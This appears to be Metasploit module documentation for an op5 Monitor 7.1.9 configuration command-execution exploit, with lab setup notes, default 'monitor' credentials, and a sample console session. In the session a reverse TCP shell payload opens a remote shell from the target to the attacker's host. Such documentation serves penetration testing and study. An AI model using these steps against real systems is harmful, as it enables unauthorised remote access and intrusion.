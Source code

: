 ## Vulnerable Application

  Official Source: [op5.com](https://www.op5.com/blog/wpfb-file/op5-monitor-7-1-9-20160303-tar-gz/)
  Archived Copy: [github](https://github.com/h00die/MSF-Testing-Scripts)

### Creating A Testing Environment

Just a few quick notes on setting up a vulnerable lab with this software.

  1. The vulnerable version only installs on CentOS 6.x (author used 6.0 final)
  2. Within `php.ini`, `date.timezone = "America/New York"` to `date.timezone = "America/New_York"` if you get php errors
  3. You may need to register for a free license via an email challenge/verification

## Verification Steps

  1. Install the software, RHEL/CENTOS required (tested on CentOS 6)
  2. Start msfconsole
  3. Do: ```use exploit/linux/http/op5_config_exec```
  4. Do: ```set payload linux/x86/shell/reverse_tcp```
  5. Do: ```set rhost 192.168.2.31```
  6. Do: ```set lhost 192.168.2.229```
  7. Do: ```exploit```
  8. You should get a shell.

## Options

  **PASSWORD**

  Password is 'monitor' by default.

  **USERNAME**

  Documentation was unclear on this.  Installing just the app, the
  username was 'monitor' by default.  However it looks like if you
  install the appliance it may be 'root'

## Scenarios

  ```
    msf > use exploit/linux/http/op5_config_exec 
    msf exploit(op5_config_exec) > set verbose true
    verbose => true
    msf exploit(op5_config_exec) > set payload linux/x86/shell/reverse_tcp
    payload => linux/x86/shell/reverse_tcp
    msf exploit(op5_config_exec) > set rhost 192.168.2.31
    rhost => 192.168.2.31
    msf exploit(op5_config_exec) > set lhost 192.168.2.229
    lhost => 192.168.2.229
    msf exploit(op5_config_exec) > check
    
    [+] Version Detected: 7.1.9
    [+] The target is vulnerable.
    msf exploit(op5_config_exec) > exploit
    
    [*] Started reverse TCP handler on 192.168.2.229:4444 
    [*] Sending stage (36 bytes) to 192.168.2.31
    [*] Command shell session 1 opened (192.168.2.229:4444 -> 192.168.2.31:52552) at 2016-06-01 14:38:41 -0400
    [*] Command Stager progress - 100.00% done (832/832 bytes)
    whoami
    monitor
    id
    uid=299(monitor) gid=48(apache) groups=48(apache),14(uucp),488(smstools) context=system_u:system_r:initrc_t:s0
  ```
